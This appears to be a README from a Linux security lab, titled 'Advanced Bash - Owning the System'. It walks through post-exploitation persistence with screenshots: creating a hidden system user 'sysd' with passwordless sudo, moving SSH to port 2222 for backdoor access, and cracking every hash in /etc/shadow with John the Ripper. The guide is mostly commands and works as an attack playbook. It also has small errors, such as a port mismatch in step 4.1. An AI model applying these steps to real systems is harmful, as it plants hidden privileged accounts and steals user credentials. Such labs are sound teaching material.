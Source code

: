 # Advanced Bash - Owning the System

## Step 1: Shadow People
1. Create a secret user named sysd. Make sure this user doesn't have a home folder created:
- sudo useradd --system --no-create-home sysd

![](/Linux/Images/AB-1-create-user.png)

2. Give your secret user a password:
- Sudo passwd sysd

![](/Linux/Images/AB-2-password.png)

3. Give your secret user a system UID < 1000
- sudo usermod -u 997 sysd

![](/Linux/Images/AB-3-group.png)

4. Give your secret user the same GID:
- sudo groupmod -g 997 sysd

![](/Linux/Images/AB-4-gid.png)

5. Give your secret user full sudo access without the need for a password:
- sudo visudo

![](/Linux/Images/AB-5-visudo.png)

6. Test that sudo access works without your password:
- su sysd
- Passw0rd

![](/Linux/Images/AB-6-test-access.png)

## Step 2: Smooth Sailing
1. Edit the sshd_config file:
- sudo nano /etc/ssh/sshd_config

![](/Linux/Images/AB-2.1-nano-sshd.png)

![](/Linux/Images/AB-2.1-nano.png)

## Step 3: Testing Your Configuration Update
1. Restart the SSH service:
- systemctl restart ssh

![](/Linux/Images/AB-3.1-restart.png)

2. Exit the root account
3. SSH to the target machine using your sysd account and port 2222:
  - ssh sysd@192.168.1.23 -p 2222

![](/Linux/Images/AB-3.3-port222.png)

4. Use sudo to switch to the root user:
- sudo su root

![](/Linux/Images/AB-3.4-su-root.png)

## Step 4: Crack All the Passwords
1. SSH back to the system using your sysd account and port 2222:
- ssh sysd@192.168.1.23 -p 22
 
![](/Linux/Images/AB-4.1-ssh-p222.png)

2. Escalate your privileges to the root user. Use John to crack the entire /etc/shadow file:
- sudo su root
- john /etc/shadow

![](/Linux/Images/AB-4.2-john.png)
